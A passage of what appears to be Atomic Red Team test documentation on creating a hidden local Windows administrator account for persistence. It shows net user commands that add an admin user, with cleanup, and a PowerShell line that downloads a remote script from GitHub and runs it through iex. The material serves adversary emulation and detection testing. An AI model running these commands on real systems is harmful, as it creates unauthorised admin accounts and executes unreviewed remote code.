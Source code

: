 
```cmd
net user /add "#{username}" "#{password}"
net localgroup administrators "#{username}" /add
```

#### Cleanup Commands:
```cmd
net user /del "#{username}" >nul 2>&1
```





<br/>
<br/>

## Atomic Test #9 - Create a new Windows admin user via .NET
Creates a new admin user in a powershell session without using net.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 2170d9b5-bacd-4819-a952-da76dae0815f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/0xv1n/dotnetfun/9b3b0d11d1c156909c0b1823cff3004f80b89b1f/Persistence/CreateNewLocalAdmin_ART.ps1')
```






<br/>
